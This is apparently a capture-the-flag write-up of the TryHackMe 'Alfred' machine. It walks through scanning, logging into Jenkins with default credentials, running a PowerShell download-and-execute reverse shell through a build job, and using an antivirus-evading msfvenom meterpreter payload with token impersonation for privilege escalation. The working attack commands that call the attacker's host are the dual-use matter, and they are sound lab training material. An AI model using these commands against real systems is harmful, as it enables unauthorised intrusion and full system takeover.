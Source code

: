hello h4x0r, today i would be walking you through the process of pwning the alfred machine on THM.

#Enumeration 
first of all like all other machines, we must begin with an nmap scan. this allows us to discover all open ports and services running on our target machine.

```
nmap -sC -sV -T4 -oN scan -p- -P0 10.10.24.159
```

![image](/posts/res/alfred_1.png)

from the result of our scan, we can see that we have the following ports open on our target.

- 80 (http Microsoft IIS httpd 7.5)
- 3389 (RDP)
- 8080 (http  Jetty 9.4.z-SNAPSHOT)

since we have couple web server on our target let's try to enumerate them for possible ways to gain initial access.

so we can simply head over to our web browser to view the webpage hosted by our web server.

![image](/posts/res/alfred_2.png)

from the first web server running on port 80 we can see a page. attempting to view the source code gives us nothing useful so lets move to the next port(8080).

navigating to http://10.10.24.159:8080 reveals the login panel for the jenkins application.

![image](/posts/res/alfred_3.png)

now Jenkins is **a Java-based open-source automation platform with plugins designed for continuous integration**. It is used to continually create and test software projects, making it easier for developers and DevOps engineers to integrate changes to the project and for consumers to get a new build.

with the login form we can attempt to check for misconfigurations by simply inputting the default user credentialss for the jenkins application.

![image](/posts/res/alfred_4.png)

from a quick google search we can tell that the default credentials for the jenkins application is ***admin:admin***.

![image](/posts/res/alfred_5.png)

now using this credentials, we are able to login. but how do we gain initial access?

we are told to find a feature that allows us to execute commands on the underlying system. 

we can take note of a job called project on the dashboard.

![image](/posts/res/alfred_6.png)

clicking on the project item, allows us o edit and make some changes to it.

![image](/posts/res/alfred_7.png)

now we click on the configure tab, because this allows us to execute system commands on the server.

we have successfully found a feature that allows us to execute commands. but to gain initial access we need to download and transfer a powershell reverse shell over to the target system.

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```


![image](/posts/res/alfred_8.png)

with the rev shell script successfully downloaded to our attacker machine now start up a simple http server using python. this allows us to serve the file on a local server.

```
python3 -m http.server 4444
```

![image](/posts/res/alfred_9.png)

In order to transfer the powershell script into the web server, we would run the following command using the  Configure feature on the server 

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.215.120:4444/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.215.120 -Port 8000
```

![image](/posts/res/alfred_10.png)

now we setup a netcat listener to catch the reverse shell connection.

```
nc -lnvp 8000

```

after clicking on apply move back to the previous page and click on the ***build now tab*** .

![image](/posts/res/alfred_11.png)

we can now see that our build has began running.

![image](/posts/res/alfred_12.png)


heading back to our terminal we have successfully gotten the file over to the server and executed it to give us a reverse shell.

![image](/posts/res/alfred_13.png)


![image](/posts/res/alfred_14.png)

to find the user flag lets navigate through the directories.

we navigate over to the Desktop directory of the user bruce and we have successfully found the user flag!!

![image](/posts/res/alfred_15.png)

you can view the file by using the following command 

```
type user.txt
```

**Privilege Escalation** 

to begin the privilege escalation process, we are asked to generate a Windows meterpreter reverse shell using msfvenom.
to do this, we make use of the following command

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o wannacry.exe

```

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

with our payload ready, let's transfer it over to the target system using the same process as earlier on.

![image](/posts/res/alfred_16.png)

we head over back to the project job and click on the configure tab. now we paste the following code in the command text area.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.215.120:444/wannacry.exe','wannacry.exe')"

```



![image](/posts/res/alfred_17.png)

now we click on apply and then head back to the previous page and click on build now. this would enable our script to get downloaded over to the server.


![image](/posts/res/alfred_18.png)

![image](/posts/res/alfred_19.png)

now before running the program we must set up a handler using metasploit.

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-thm-ip
set LPORT listening-port

```

![image](/posts/res/alfred_20.png)

with our rev shell on the target system lets move it over to the Temp directory.

```
cd C:/Windows/Temp
```

```
Move-Item -Path "C:\Program Files (x86)\Jenkins\workspace\project\wannacry.exe" -Destination "C:\Windows\Temp"
```

![image](/posts/res/alfred_21.png)


now we can run the program by running the following command

```
Start-Process "wannacry.exe"
```

we've successfully gotten a meterpreter shell

![image](/posts/res/alfred_22.png)


now we can view all privileges of the user using the following command

```
whoami /priv
```


![image](/posts/res/alfred_23.png)

we are presented with a list of privileges but only a couple of them are enabled

- ***SeDebugPrivilege*** 
- ***SeChangeNotifyPrivilege***
- ***SeImpersonatePrivilege***
- **SeCreateGlobalPrivilege** 

Let's use the incognito module that will allow us to exploit this vulnerability.
we can now exit our shell back to the meterpreter shell and run the following command to start up incognito

```
load incognito 
```

![image](/posts/res/alfred_24.png)

now we list tokens using the following command

```
list_tokens -g
```

to escalate our privilege we need to impersonate the administrators token. 

```
impersonate_token "BUILTIN\Administrators"

```

![image](/posts/res/alfred_25.png)

Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).

Ensure that you migrate to a process with correct permissions (the above question's answer). The safest process to pick is the services.exe process. First, use the _ps_ command to view processes and find the PID of the services.exe process. Migrate to this process using the command 

```
 migrate PID-OF-PROCESS
```


![image](/posts/res/alfred_27.png)

now we can read the content of the root.txt file located at  **C:\Windows\System32\config** 

```
cat root.txt
```


![[29.png]]

and thats all for this box!!!

